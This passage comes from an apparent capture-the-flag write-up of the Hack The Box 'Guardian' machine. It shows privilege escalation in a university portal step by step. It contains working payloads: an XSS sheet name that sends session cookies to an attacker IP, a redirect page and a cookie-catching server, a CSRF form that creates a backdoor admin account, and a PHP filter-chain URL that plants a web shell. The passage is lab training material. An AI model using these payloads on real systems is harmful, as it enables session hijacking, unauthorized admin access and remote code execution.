<sheet name="&lt;img src=1 onerror=fetch('http://10.10.16.27/steal?cookie='+document.cookie)&gt;" sheetId="2" r:id="rId2"/>
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/Guardian/files/payload]
└─$ cat xl/workbook.xml            
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
    <sheets>
        <sheet name="Sheet1" sheetId="1" r:id="rId1"/>
        <sheet name="&lt;img src=1 onerror=fetch('http://10.10.16.27/steal?cookie='+document.cookie)&gt;" sheetId="2" r:id="rId2"/>
    </sheets>
</workbook>
```

And after we repeated the previous steps we successfully `exfiltrated` the `session cookie` of a `lecturer`.

```shell
<--- CUT FOR BREVITY --->
10.129.138.66 - - [30/Aug/2025 23:22:23] "GET /steal?cookie=PHPSESSID=tmqpasf6oe21cg7d42eg1o9uaf HTTP/1.1" 404 -
```

We `replaced` our own `session cookie` with the new one, `reloaded` the page and got a session as a `lecturer`.



## Privilege Escalation to admin

### Cross-Site Request Forgery (CSRF) Token Bypass

As `lecturer` we had a few more options. We could were able to create new `Notices` which allowed us to enter a custom `URL` which got visited by the `admin`.

Our first approach was to steal the `session token` of the `admin` the same way we did it for the `lecturer`  but unfortunately that didn't worked.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Guardian/serve]
└─$ cat payload.html 
<html>
<body>
<script>
// Direct redirect with cookie data
location.href = 'http://10.10.16.27/admin_cookie?data=' + encodeURIComponent(document.cookie);
</script>
<h1>University Notice - Loading...</h1>
</body>
</html>
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Guardian/serve]
└─$ cat cookie_catcher.py 
#!/usr/bin/env python3
import http.server
import socketserver
from urllib.parse import urlparse, parse_qs
import json

class ExploitHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        print(f'[GET] {self.path}')
        self.send_response(200)
        self.end_headers()
        
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        print(f'[POST] {self.path}')
        print(f'[DATA] {post_data.decode()}')
        self.send_response(200)
        self.end_headers()

with socketserver.TCPServer(('', 80), ExploitHandler) as httpd:
    print('Enhanced exploit server on :80')
    httpd.serve_forever()
```



We revisited the `source code` and checked the `create.php` inside `/admin/notices`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Guardian/files]
└─$ cat extracted/portal.guardian.htb/admin/notices/create.php
<--- CUT FOR BREVITY --->
```

We figured out that there was actually `no CSRF Token validation` which allowed us to craft a malicious payload that could trigger any of the functions, only available to the `admin`.

```php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $title = $_POST['title'];
    $content = $_POST['content'];
    $reference_link = $_POST['reference_link'];
```

To pull this off we needed a valid `CSRF Token` which we grabbed from within the `website source` of `create.php`.

- [http://portal.guardian.htb/lecturer/notices/create.php](http://portal.guardian.htb/lecturer/notices/create.php)

```shell
<input type="hidden" name="csrf_token" value="a59c385394309431dc80ea1a18d71a0a">
```



After that we forged a malicious `.html` file to create a `backdoor admin user`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Guardian/serve]
└─$ cat index.html 
<!DOCTYPE html>
<html>
<head><title>System Update</title></head>
<body onload="document.forms[0].submit()">
<form method="POST" action="http://portal.guardian.htb/admin/createuser.php" id="exploitForm">
    <input type="hidden" name="csrf_token" value="9d87cad43a021fa53f8a95c0dbc9c97d">
    <input type="hidden" name="username" value="backdoor">
    <input type="hidden" name="password" value="Password123!">
    <input type="hidden" name="full_name" value="Backdoor Admin">
    <input type="hidden" name="email" value="backdoor@test.com">
    <input type="hidden" name="dob" value="1990-01-01">
    <input type="hidden" name="address" value="Remote Access">
    <input type="hidden" name="user_role" value="admin">
</form>
</body>
</html>
```

We started our local `Python Web Server`and created a new `Notice` pointing to our malicious `index.html`.

```shell
http://10.10.16.27/index.html
```

After a few seconds we got a hit and when we tried to login using `backdoor:Password123!` we got access to the `admin dashboard` using our `backdoor admin user`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Guardian/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.138.66 - - [31/Aug/2025 07:24:32] "GET /index.html HTTP/1.1" 304 -
10.129.138.66 - - [31/Aug/2025 07:24:32] code 404, message File not found
10.129.138.66 - - [31/Aug/2025 07:24:32] "GET /favicon.ico HTTP/1.1" 404 -
```

| Username | Password     |
| -------- | ------------ |
| backdor  | Password123! |




## Foothold

### Remote Code Execution (RCE) through PHP Gadget Chains

Now as `admin` we got another new option called `Reports`. We investigated the four reporting options but the only thing that changed was actually the `URL` pointing to the corresponding `.php` file.

```shell
http://portal.guardian.htb/admin/reports.php?report=reports/system.php
```



This looked like an opportunity to use some `PHP Filter Chains` to `exfiltrate` data or to hopefully achieve `Remote Code Execution (RCE)`.

- [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

Our payload aimed to place a `web shell` which should granted us `RCE`.

```shell
┌──(kali㉿kali)-[~/opt/payloads/php_filter_chain_generator]
└─$ python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]); ?>'
[+] The following gadget chain will generate the following code : <?php system($_GET["cmd"]); ?> (base64 value: PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

We modified our payload to point to `/resource=reports/system.php` to avoid the `PHP Filter`.

```shell
http://portal.guardian.htb/admin/reports.php?report=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=reports/system.php
```

After we executed the payload and then tried to actually execute commands, we got the output directly on the website.

```shell
http://portal.guardian.htb/admin/reports.php?report=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|conve